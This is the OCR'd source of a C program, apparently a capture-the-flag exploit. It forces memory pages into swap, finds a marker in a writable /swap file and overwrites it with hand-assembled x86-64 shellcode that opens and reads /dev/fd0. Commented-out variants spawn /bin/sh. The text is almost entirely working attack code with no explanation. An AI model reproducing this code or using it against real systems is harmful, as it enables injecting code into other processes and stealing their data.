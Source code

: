 ```c
char* buffers[BUFFERS_SIZE] = {0};

int main(int argc, char const *argv[])
{
	size_t count = 0;
	for (int i = 0; i < 0x1000; ++i)
	{
		char* buffer = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
		if (count < BUFFERS_SIZE)
		{ // record into array
			buffers[count++] = buffer;
		}
		else
		{ // if full, clear array
			printf("clear\n");
			for (int j = 0; j < BUFFERS_SIZE; ++j)
			{
				munmap(buffers[j], PAGE_SIZE);
			}
			count = 0;
		}
		memset(buffer, 0, PAGE_SIZE);
		if (i % 100 == 0)
			printf("%d\n", i);
		if (buffer == 0)
			return 0;
		FILE* f = fopen("/swap", "rb+");
		assert(f != NULL);
		read_all(f);
		unsigned char* res = memmem(swap, SWAP_SIZE, NEEDLE, sizeof(NEEDLE));
		if (res)
		{
			size_t off = res - swap;
			fseek(f, off, SEEK_SET);
			// char sc[] = "H\xb8/bin/sh\x00PH\x89\xe7H1\xf6H1\xd2j;X\x0f\x05";
			// unsigned char sc[] = "j\x01\xfe\x0c$H\xb8/dev/fd0PH\x89\xe71\xd21\xf6j\x02X\x0f\x05H\x81\xec\x00\x01\x00\x00H\x89\xc71\xc01\xd2\xb6\x01H\x89\xe6\x0f\x05j\x01_1\xd2\xb6\x01H\x89\xe6j\x01X\x0f\x05";
			unsigned char sc[] = {0x6a, 0x1, 0xfe, 0xc, 0x24, 0x48, 0xb8, 0x2f, 0x64, 0x65, 0x76, 0x2f, 0x66, 0x64, 0x30, 0x50, 0x48, 0x89, 0xe7, 0x31, 0xd2, 0x31, 0xf6, 0x6a, 0x2, 0x58, 0xf, 0x5, 0x48, 0x81, 0xec, 0x0, 0x1, 0x0, 0x0, 0x48, 0x89, 0xc7, 0x31, 0xc0, 0x31, 0xd2, 0xb6, 0x1, 0x48, 0x89, 0xe6, 0xf, 0x5, 0x6a, 0x1, 0x5f, 0x31, 0xd2, 0xb6, 0x1, 0x48, 0x89, 0xe6, 0x6a, 0x1, 0x58, 0xf, 0x5};

			char buf[0x100];
			memset(buf, 0xcc, sizeof(buf));
			size_t sc_off = 0xa7 - 0x77;
			buf[sc_off - 1] = 0x90;
			for (size_t i = 0; i < sizeof(sc); ++i)
			{
				buf[sc_off + i] = sc[i];
				assert(sc_off + i < 0x100);
			}
			size_t res = fwrite(buf, 1, sizeof(buf), f);
			assert(res == sizeof(buf));
			printf("found!!!\n");
			return 0;
		}
		fclose(f);
	}
	return 0;
}
```